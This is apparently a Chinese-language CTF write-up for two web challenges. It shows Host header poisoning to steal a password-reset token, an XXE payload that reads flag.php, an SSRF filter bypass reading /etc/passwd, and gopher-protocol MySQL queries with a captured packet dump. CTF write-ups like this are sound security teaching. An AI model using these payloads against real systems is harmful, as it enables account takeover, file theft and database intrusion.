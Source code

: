 
### 马利-Magic-Mirror

题目给了hint，是Host Header在找回密码中的欺骗，所以按hint的思路，请求找回密码的时候，将`http`请求头的`Host`改为自己服务器域名，然后用户名为`admin`，接着即可在自己服务器的web日志里找到重置密码的Token：

`222.18.158.227 - - [25/Nov/2018:15:40:35 +0800] "GET /resetpassword.php?sign=e3febf04b379e9a89d6d394484c56e9a HTTP/1.1" 404 480 "http://s.nemesisly.xyz/func/getpasscheck.php" "-"`

然后利用token重置密码，以admin登录后问d0g3里谁最帅，抓包发现是`xxe`攻击，读取`flag.php`获得flag

```html
<?xml version="1.0" ?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php"> ]>
<information>
<username>&b;</username>
</information>
```


### 蒙古-Diglett

进去后是一个`ssrf`，过滤了`file`，双写绕过即可，需要本地，添加`localhost`读文件：`fifilele://localhost/etc/passwd`

见这篇[文章](http://shaobaobaoer.cn/archives/643/gopher-8de8ae-ssrf-mysql-a0e7b6)

然后读源码`config.php`获得`mysql`数据库的用户名库名表名：`test_user, test, secret`。接着使用`gopher`协议查询数据库，网上的脚本查询会提示`No database name xxx`，无论怎样都无法正常回显数据，所以只好自己`wireshark`抓包后代入协议查询：

```sql
create user 'test_user'@'localhost';
GRANT ALL ON *.* TO 'test_user'@'localhost';
```

命令行`mysql -h 127.0.0.1 -u test_user -e "select secret from test.flag"`

`wireshark`数据包：

```
00000000  b3 00 00 01 85 a2 3f 00  00 00 00 01 2d 00 00 00   ......?. ....-...
00000010  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ........ ........
00000020  00 00 00 00 74 65 73 74  5f 75 73 65 72 00 00 6d   ....test _user..m
00000030  79 73 71 6c 5f 6e 61 74  69 76 65 5f 70 61 73 73   ysql_nat ive_pass
00000040  77 6f 72 64 00 71 03 5f  6f 73 10 64 65 62 69 61   word.q._ os.debia
00000050  6e 2d 6c 69 6e 75 78 2d  67 6e 75 0c 5f 63 6c 69   n-linux- gnu._cli
00000060  65 6e 74 5f 6e 61 6d 65  08 6c 69 62 6d 79 73 71   ent_name .libmysq
00000070  6c 04 5f 70 69 64 04 32  38 36 36 0f 5f 63 6c 69   l._pid.2 866._cli
00000080  65 6e 74 5f 76 65 72 73  69 6f 6e 07 31 30 2e 31   ent_vers ion.10.1
00000090  2e 32 39 09 5f 70 6c 61  74 66 6f 72 6d 06 78 38   .29._pla tform.x8
000000A0  36 5f 36 34 0c 70 72 6f  67 72 61 6d 5f 6e 61 6d   6_64.pro gram_nam
000000B0  65 05 6d 79 73 71 6c                               e.mysql
000000B7  21 00 00 00 03 73 65 6c  65 63 74 20 40 40 76 65   !....sel ect @@ve
000000C7  72 73 69 6f 6e 5f 63 6f  6d 6d 65 6e 74 20 6c 69   rsion_co mment li
000000D7  6d 69 74 20 31                                     mit 1
000000DC  1d 00 00 00 03 73 65 6c  65 63 74 20 73 65 63 72   .....sel ect secr
000000EC  65 74 20 66 72 6f 6d 20  74 65 73 74 2e 66 6c 61   et from  test.fla
000000FC  67                                                 g
000000FD  01 00 00 00 01                                     .....

```

